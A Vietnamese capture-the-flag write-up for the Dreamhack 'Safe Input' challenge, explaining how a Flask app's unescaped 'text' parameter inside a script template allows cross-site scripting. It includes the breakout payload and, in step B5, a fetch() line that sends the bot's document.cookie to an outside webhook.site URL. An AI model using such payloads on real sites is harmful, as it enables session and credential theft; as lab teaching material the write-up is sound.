

# XSS

**Tên challenge:**  Safe Input

**Link challenge:** [Here](https://dreamhack.io/wargame/challenges/1671)

**Tác giả challenge:** Dreamhack

**Mục tiêu challenge:** It's so safe that it can't be seen.

The flag format for this challenge is `DH{...}`.

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, Challenge sẽ cung cấp cho ta 1 Source Code và Website có chức năng show đoạn text như sau:



Để ý thì ta thấy khi truy cập vào `/` thì trang Web đã redirect ta sang `/test`, để hiểu rõ hơn thì ta sẽ đào sâu vào Source Code.

**B2:** Ta đi sâu vào Source Code mà Challenge cung cấp:
```python
from flask import Flask, redirect, request, render_template
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
from time import sleep
from os import urandom, environ
from urllib.parse import quote

app = Flask(__name__)
app.secretkey = urandom(32)

FLAG = environ.get("FLAG", "DH{fake_flag}")
PASSWORD = environ.get("PASSWORD", "1234")


def access_page(text, cookie={"name": "name", "value": "value"}):
    try:
        service = Service(executable_path="/chromedriver-linux64/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get(f"http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(f"http://127.0.0.1:8000/test?text={quote(text)}")
        sleep(1)
    except Exception as e:
        print(e, flush=True)
        driver.quit()
        return False
    driver.quit()
    return True

@app.route("/", methods=["GET"])
def index():
    return redirect("/test")

@app.route("/test", methods=["GET"])
def intro():
    text = request.args.get("text")
    return render_template("test.html", test=text)


@app.route("/report", methods=["GET", "POST"])
def report():
    if request.method == "POST":
        text = request.form.get("text")
        if not text:
            return render_template("report.html", msg="fail")

        else:
            if access_page(text, cookie={"name": "flag", "value": FLAG}):
                return render_template("report.html", message="Success")
            else:
                return render_template("report.html", message="fail")
    else:
        return render_template("report.html")


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8000)

```
Từ trên, ta rút ra được vài điểm đáng chú ý sau:
1. Khi truy cập vào endpoint `/` thì nó sẽ redirect ta sang `/test`
2. Ở endpoint `/test` có nhận 1 parameter URL có tên là `text`. 
3. Endpoint `/report` có nhận vào cú POST request kèm theo 1 body parameter là `text`, sau đó nếu body parameter `text` có giá trị thì sẽ được đưa vào hàm `access_page()` kèm với `cookie` và đặc biệt là `Flag` được chứa trong `cookie` này.
4. Hàm `access_page()` tiếp nhận 2 tham số là `text` và `cookie`, tóm tắt tác dụng của hàm này là Server sẽ thực hiện 1 cú request vào `127.0.0.1/test?text={quote(text)}` trên Web Server. Và điểm đáng chú ý ở đây là Code đã đưa thẳng input `text` của ta vào mà không qua bước xử lý. Từ đây, ta có thể thấy chỗ code này có thể xảy ra lỗ hổng nào đó.

**B3:** Sau khi nắm rõ quy trình hoạt động của Code, ta sẽ thử quay lại `/test` và thêm URL parameter `text=hello` xem có chuyện gì xảy ra:


=> Chẳng có gì xảy ra cả.

Ta thử bắt lại gói tin Burp-suite để xem chữ `hello` của ta đã đi đâu thì phát hiện nó được nằm trong tag `<script>` và không được hiện thị ra màn hình nên ta không thấy.


Khi nhìn vào chữ `hello` được bỏ trong dấu backstick. Ta thử đổi input `text` thành:
```
hello`+`
```

Để xem gói tin sẽ ra sao thì kết quả là:


Lúc này ta có thể thấy 1 khoảng trống ở giữa `hello`, nguyên do có lẽ dấu `+` trên URL đã hiểu nhầm thành khoảng trống, ta thử đổi dấu cộng `+` thành URL encode và chỉnh lại input như sau:
```
hello`%2b`
```
**Chú thích:** `%2b` là URL encode của dấu `+`/


Trang Web vẫn hoạt dộng bình thường, tiếp theo ta sẽ thử tới payload kiểm tra XSS xem có thực thi được không thì nhận được kết quả bất ngờ:
```
hello`;alert(1);const a=`
```


=> Vậy là chức năng này đã bị `XSS`.

Câu hỏi tiếp theo là làm sao để lấy `Flag` ?

* <u>**Trả lời:**</u> Khi đọc lại tóm tắt code ở trên, ta sẽ biết được rằng `Flag` được lưu trong `cookie` ở endpoint `/report` khi hàm `access_page()` được kích hoạt và điểu kiện để hàm `access_page` được chạy là 1 gói tin đến endpoint `/report` phải là gói tin POST, 2 là parameter body `text` phải có giá trị. Và khi đến chỗ xuất hiện parameter `text` của ta ở hàm `access_page` mà không được xử lý đúng cách:
```
driver.get(f"http://127.0.0.1:8000/test?text={quote(text)}")
```
* Ta có thể kết hợp với lỗi XSS ở trên và `alert(document.cookie)`, từ đó ta có thể lấy được `Flag`.

**B4:** Ta bắt đầu với giả thuyết của mình, trước tiên ta sẽ thử input `text` là `test` để xem sao:


Sau khi trang Web load 1 tí thì lại trả về kết quả `Fail`:


Tới đây, thì ta có thể tạm kết luận là ta không thể `alert cookie` ra được vì trang Web sẽ redirect về endpoint `/report` và sẽ không show ra kết quả `alert` nên ta sẽ dùng 1 cách khác là đẩy `cookie` ra ngoài thông qua `fetch()`.

Tuy nhiên, có 1 vấn đề khác là tại sao trang Web lại trả về `Fail`, trong khi ta chỉ input 1 từ đơn giản là `test`. Ta đọc kỹ Source Code lại thì cũng chẳng phát hiện gì bất thường cho tới khi ta dạo đến file `report.html`:
```html

            <div class="note-content">
                
                    <p class="success">Success</p>
                
                    <p class="fail">Fail</p>
                
            </div>
        
```
Đây chính là mấu chốt của việc in ra `Fail`, nói cho dễ hiểu thì bạn có thể nhìn đoạn code xử lý render trong endpoint `/report` sau:
```python
if access_page(text, cookie={"name": "flag", "value": FLAG}):
                return render_template("report.html", message="Success")
            else:
                return render_template("report.html", message="fail")
```
Từ đoạn code ở endpoint `/report` có thể thấy là chỉ xuất hiện `Fail` khi và chỉ khi hàm `access_page` trả về `False`. Nhưng với input đơn giản là `test` thì `access_page` nhất định sẽ trả về `True` và sau đó nó sẽ render `report.html` kèm với biến `message="Success"`. Tuy nhiên, nếu bạn tinh mắt có thể thấy ở phần xử lý `` của file `report.html` có vấn đề.

**Giải thích:** `If success` nghĩa là nếu biến `success` có tồn tại thì thực thi câu lệnh trong `if`, tuy nhiên khi `render_template` thì đoạn code đâu có truyền vào biến `success` nào đâu, nó chỉ truyền duy nhất biến `message`. Do đó, dù ta có nhập gì đi nữa thì nó vẫn sẽ in ra `Fail`. Đến đây ta có thể yên tâm mà lợi dụng nó và lấy `Flag`.

**B5:** Kết hợp các dữ kiện trên, ta sẽ dùng `Webhook` và `Fetch()` để đưa `cookie` trang Web ra bên ngoài:
```
`;fetch('https://webhook.site/d0c010e2-20cf-4762-9bb7-b81be4e3c0de/?cookie='+document.cookie);const a=`
```
**Lưu ý:** Đoạn code trên nên được input ở trên trình duyệt qua endpoint `/report` thay vì thông qua gói tin Burp-suite, vì payload trên Burp-suite sẽ không hoạt động do URL encode trong gói tin.


=> Vậy là ta đã lấy được `Flag`.